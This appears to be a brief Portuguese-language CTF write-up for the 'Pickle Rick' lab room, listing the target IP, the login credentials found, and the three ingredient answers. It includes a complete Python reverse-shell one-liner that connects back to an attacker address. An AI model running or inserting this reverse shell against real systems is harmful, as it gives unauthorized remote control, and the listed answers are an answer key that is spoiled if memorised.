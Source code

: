 # HackerMindSet

Tentando fazer o Pickle Rick:


IP = 10.10.244.103
![fds](https://github.com/user-attachments/assets/8e80809f-2319-4c01-98f8-ba822ad725c4)


http://10.10.244.103/

http://10.10.244.103/login.php

Username: R1ckRul3s

Password:Wubbalubbadubdub

primereiro ingrediente: mr. meeseek hair

#FAZER REVERSE SHELL
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.8.14.59",6969));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")' - (NÃO COLOCAR EM UM PROGRAMA)

segundo ingrediente: 1 jerry tear


terceiro ingrediente: fleeb juice




